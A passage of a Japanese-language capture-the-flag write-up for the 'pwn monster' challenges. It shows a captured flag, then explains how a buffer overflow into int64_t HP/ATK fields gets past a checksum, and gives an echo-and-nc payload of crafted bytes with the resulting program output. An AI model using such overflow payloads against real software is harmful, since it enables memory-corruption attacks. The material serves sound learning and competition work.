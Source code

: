 ```
|        | 0x4141414141414141 |             AAAAAAAA |
|HP      | 0x4141414141414141 |  4702111234474983745 |
|ATK     | 0x4141414141414141 |  4702111234474983745 |
+--------+--------------------+----------------------+
OK, Nice name.

Let's battle with Rival! If you win, give you FLAG.

[You] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApwnchu HP: 4702111234474983745
[Rival] pwnchu HP: 9999
Your Turn.

Rival monster took 4702111234474983745 damage!


[You] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApwnchu HP: 4702111234474983745
[Rival] pwnchu HP: -4702111234474973746
Win!

nitic_ctf{We1c0me_t0_pwn_w0r1d!}
```

Flag: `nitic_ctf{We1c0me_t0_pwn_w0r1d!}`

### pwn monster 2

配布されたソースコードを読むことで各種値を格納している変数の型が `int64_t` であり、チェックサムを突破した上で変数の値をオーバーフローさせられるだろうことがわかります。`pwn monster 1` と同じようにバッファオーバーフローの脆弱性を突き、相手の体力値をオーバーフローさせて負の値にすることでFlagを入手することができます。

```
$ echo -e "AAAAAAAAAAAAAAAA\x6f\x00\x00\x00\x00\x00\x00\x30\xff\xff\xff\xff\xff\xff\xff\xcf" | nc 35.200.120.35 9002
 ____                 __  __                 _
|  _ \__      ___ __ |  \/  | ___  _ __  ___| |_ ___ _ __
| |_) \ \ /\ / / '_ \| |\/| |/ _ \| '_ \/ __| __/ _ \ '__|
|  __/ \ V  V /| | | | |  | | (_) | | | \__ \ ||  __/ |
|_|     \_/\_/ |_| |_|_|  |_|\___/|_| |_|___/\__\___|_|
                        Press Any Key

Welcome to Pwn Monster World!
I'll give first monster!
Let's give your monster a name!
+--------+--------------------+----------------------+
|name    | 0x0000000000000000 |                      |
|        | 0x0000000000000000 |                      |
|HP      | 0x0000000000000064 |                  100 |
|ATK     | 0x000000000000000a |                   10 |
+--------+--------------------+----------------------+
Checksum: 110
Input name: +--------+--------------------+----------------------+
|name    | 0x4141414141414141 |             AAAAAAAA |
|        | 0x4141414141414141 |             AAAAAAAA |
|HP      | 0x300000000000006f |  3458764513820541039 |
|ATK     | 0xcfffffffffffffff | -3458764513820540929 |
+--------+--------------------+----------------------+
Checksum: 110
OK, Nice name.
Let's battle with Rival! If you win, give you FLAG.
[You] AAAAAAAAAAAAAAAAo HP: 3458764513820541039
[Rival] pwnchu HP: 9999
Your Turn.
Rival monster took -3458764513820540929 damage!
[You] AAAAAAAAAAAAAAAAo HP: 3458764513820541039
[Rival] pwnchu HP: 3458764513820550928
```